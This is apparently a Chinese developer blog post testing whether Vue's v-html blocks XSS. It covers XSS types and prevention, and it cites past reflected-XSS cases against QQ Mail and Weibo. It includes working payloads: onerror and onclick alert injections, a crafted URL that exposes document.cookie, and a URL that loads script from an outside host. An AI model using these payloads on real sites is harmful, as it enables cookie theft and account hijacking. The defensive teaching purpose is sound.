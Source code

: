 > 在开发员工门户的时候有一详情页面是通过请求模板字符串直接来渲染的，拿到模板后使用 js-xss过滤。
>
> 而有同事认为没有必要使用一个库专门来过滤一下，vue或许自带了过滤特字符的转义。到底行不行我用实际的代码来证明。

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <title>xss测试</title>
</head>

<body>
  <div id="app">
    <p v-html="inputStr"></p>
    <input type="text" v-model="inputStr"  style="width: 300px;">
  </div>
    
  <script src="https://unpkg.com/vue@next"></script>
  <script>
    const { createApp } = Vue;

    createApp({
      data() {
        return {
          inputStr: "&lt;img src='123' onerror='alert(1111)&gt;"
        };
      },
    }).mount('#app');
  </script>
</body>
</html>
```

![image-20221015231048229](C:\Users\乐此不疲\AppData\Roaming\Typora\typora-user-images\image-20221015231048229.png)![image-20221015231256349](C:\Users\乐此不疲\AppData\Roaming\Typora\typora-user-images\image-20221015231256349.png)

#### 当我输入一个脚本时 、并没有触发，这莫非就说明了以上的情况可以不需要用js-xss防御嘛？

其实这种情况只能说明这段脚本没有被执行，并不能说明是v-html自动转义的功劳，因为是他的功劳的话，页面上也应该显示这段script文本，就像这样形成该文本。![image-20221015232249981](C:\Users\乐此不疲\AppData\Roaming\Typora\typora-user-images\image-20221015232249981.png)

#### 我们在试试别的更高级的xss攻击`<a onclick="alert('攻击你')">连接</a>`

![image-20221015232605884](C:\Users\乐此不疲\AppData\Roaming\Typora\typora-user-images\image-20221015232605884.png)

#### 这里形成了一个a链接，当我们点击的时候触发了alert

![image-20221015232700920](C:\Users\乐此不疲\AppData\Roaming\Typora\typora-user-images\image-20221015232700920.png)

这足以说明v-html并不能过滤掉xss攻击。

我们在多式几种：`<img src="xx" onerror="alert('这个也可以攻')">`

![image-20221015233115347](C:\Users\乐此不疲\AppData\Roaming\Typora\typora-user-images\image-20221015233115347.png)

这种直接触发xss攻击

#### 那为什么第一种不行呢？[为什么vue v-html不执行script代码？](https://www.cnblogs.com/simonbaker/p/16203887.html)

可能他还不知道，这个不是vue的限制，而是html5中的规定。

html5中为了安全起见，不会执行innerHTML中插入的<script>的代码。

所以，如果想给v-html赋值<script>的代码，虽然能看到在dom中成功展示，但却不会执行<script>中的js代码的。

## 那v-html能否防御xss攻击？

既然v-html都不会执行<script>的js代码，那能否防御xss攻击呢？



**那我还是想在v-html中的标签里面执行js代码呢？**

这当然是可以的。



大概是先写段代码，创建script标签，然后append到指定标签即可。

```html
// html<h2 ref="testxss" v-html="testxss1"></h2><br/><input id="input"></input><button @click="clickBt">testinput</button>
// jsclickBt() {  const script = document.createElement('script')  script.innerHTML = document.getElementById('input').value  this.$refs.testxss.append(script)}
```

先来看看xss又多少种类型，都是怎么形成xss攻击的。

### 什么是 XSS

Cross-Site Scripting（跨站脚本攻击）简称 XSS，是一种代码注入攻击。攻击者通过在目标网站上注入恶意脚本，使之在用户的浏览器上运行。利用这些恶意脚本，攻击者可获取用户的敏感信息如 Cookie、SessionID 等，进而危害数据安全。

为了和 CSS 区分，这里把攻击的第一个字母改成了 X，于是叫做 XSS。

XSS 的本质是：恶意代码未经过滤，与网站正常的代码混在一起；浏览器无法分辨哪些脚本是可信的，导致恶意脚本被执行。

而由于直接在用户的终端执行，恶意代码能够直接获取用户的信息，或者利用这些信息冒充用户向网站发起攻击者定义的请求。

在部分情况下，由于输入的限制，注入的恶意脚本比较短。但可以通过引入外部的脚本，并由浏览器执行，来完成比较复杂的攻击策略。

这里有一个问题：用户是通过哪种方法“注入”恶意脚本的呢？

### XSS 分类

根据攻击的来源，XSS 攻击可分为存储型、反射型和 DOM 型三种。

#### 存储型 XSS

存储型 XSS 的攻击步骤：

1. 攻击者将恶意代码提交到目标网站的数据库中。
2. 用户打开目标网站时，网站服务端将恶意代码从数据库取出，拼接在 HTML 中返回给浏览器。
3. 用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行。
4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。

这种攻击常见于带有用户保存数据的网站功能，如论坛发帖、商品评论、用户私信等。

#### 反射型 XSS

反射型 XSS 的攻击步骤：

1. 攻击者构造出特殊的 URL，其中包含恶意代码。
2. 用户打开带有恶意代码的 URL 时，网站服务端将恶意代码从 URL 中取出，拼接在 HTML 中返回给浏览器。
3. 用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行。
4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。

反射型 XSS 跟存储型 XSS 的区别是：存储型 XSS 的恶意代码存在数据库里，反射型 XSS 的恶意代码存在 URL 里。

反射型 XSS 漏洞常见于通过 URL 传递参数的功能，如网站搜索、跳转等。

由于需要用户主动打开恶意的 URL 才能生效，攻击者往往会结合多种手段诱导用户点击。

POST 的内容也可以触发反射型 XSS，只不过其触发条件比较苛刻（需要构造表单提交页面，并引导用户点击），所以非常少见。

#### DOM 型 XSS

DOM 型 XSS 的攻击步骤：

1. 攻击者构造出特殊的 URL，其中包含恶意代码。
2. 用户打开带有恶意代码的 URL。
3. 用户浏览器接收到响应后解析执行，前端 JavaScript 取出 URL 中的恶意代码并执行。
4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。

DOM 型 XSS 跟前两种 XSS 的区别：DOM 型 XSS 攻击中，取出和执行恶意代码由浏览器端完成，属于前端 JavaScript 自身的安全漏洞，而其他两种 XSS 都属于服务端的安全漏洞。

## XSS 攻击的预防

通过前面的介绍可以得知，XSS 攻击有两大要素：

1. 攻击者提交恶意代码。
2. 浏览器执行恶意代码。

### 预防存储型和反射型 XSS 攻击

存储型和反射型 XSS 都是在服务端取出恶意代码后，插入到响应 HTML 里的，攻击者刻意编写的“数据”被内嵌到“代码”中，被浏览器所执行。

预防这两种漏洞，有两种常见做法：

- 改成纯前端渲染，把代码和数据分隔开。
- 对 HTML 做充分转义。

我们回到最开始提出的问题，相信同学们已经有了答案：

1. XSS 防范是后端 RD 的责任，后端 RD 应该在所有用户提交数据的接口，对敏感字符进行转义，才能进行下一步操作。

> 不正确。因为： * 防范存储型和反射型 XSS 是后端 RD 的责任。而 DOM 型 XSS 攻击不发生在后端，是前端 RD 的责任。防范 XSS 是需要后端 RD 和前端 RD 共同参与的系统工程。 * 转义应该在输出 HTML 时进行，而不是在提交用户输入时。

1. 所有要插入到页面上的数据，都要通过一个敏感字符过滤函数的转义，过滤掉通用的敏感字符后，就可以插入到页面中。

> 不正确。 不同的上下文，如 HTML 属性、HTML 文字内容、HTML 注释、跳转链接、内联 JavaScript 字符串、内联 CSS 样式表等，所需要的转义规则不一致。 业务 RD 需要选取合适的转义库，并针对不同的上下文调用不同的转义规则。

整体的 XSS 防范是非常复杂和繁琐的，我们不仅需要在全部需要转义的位置，对数据进行对应的转义。而且要防止多余和错误的转义，避免正常的用户输入出现乱码。

## XSS 攻击案例

#### QQ 邮箱 m.exmail.qq.com 域名反射型 XSS 漏洞

攻击者发现 `http://m.exmail.qq.com/cgi-bin/login?uin=aaaa&domain=bbbb` 这个 URL 的参数 `uin`、`domain` 未经转义直接输出到 HTML 中。

于是攻击者构建出一个 URL，并引导用户去点击： `http://m.exmail.qq.com/cgi-bin/login?uin=aaaa&domain=bbbb%26quot%3B%3Breturn+false%3B%26quot%3B%26lt%3B%2Fscript%26gt%3B%26lt%3Bscript%26gt%3Balert(document.cookie)%26lt%3B%2Fscript%26gt%3B`

用户点击这个 URL 时，服务端取出 URL 参数，拼接到 HTML 响应中：

```html
<script>
getTop().location.href="/cgi-bin/loginpage?autologin=n&errtype=1&verify=&clientuin=aaa"+"&t="+"&d=bbbb";return false;</script><script>alert(document.cookie)</script>"+"...
```

浏览器接收到响应后就会执行 `alert(document.cookie)`，攻击者通过 JavaScript 即可窃取当前用户在 QQ 邮箱域名下的 Cookie ，进而危害数据安全。

#### 新浪微博名人堂反射型 XSS 漏洞

攻击者发现 `http://weibo.com/pub/star/g/xyyyd` 这个 URL 的内容未经过滤直接输出到 HTML 中。

于是攻击者构建出一个 URL，然后诱导用户去点击：

```
http://weibo.com/pub/star/g/xyyyd"><script src=//xxxx.cn/image/t.js></script>
```

用户点击这个 URL 时，服务端取出请求 URL，拼接到 HTML 响应中：

```html
<li><a href="http://weibo.com/pub/star/g/xyyyd"><script src=//xxxx.cn/image/t.js></script>">按分类检索</a></li>
```

浏览器接收到响应后就会加载执行恶意脚本 `//xxxx.cn/image/t.js`，在恶意脚本中利用用户的登录状态进行关注、发微博、发私信等操作，发出的微博和私信可再带上攻击 URL，诱导更多人点击，不断放大攻击范围。这种窃用受害者身份发布恶意内容，层层放大攻击范围的方式，被称为“XSS 蠕虫”。

## js-xss

cdn上的没了

也不能直接通过链接及解析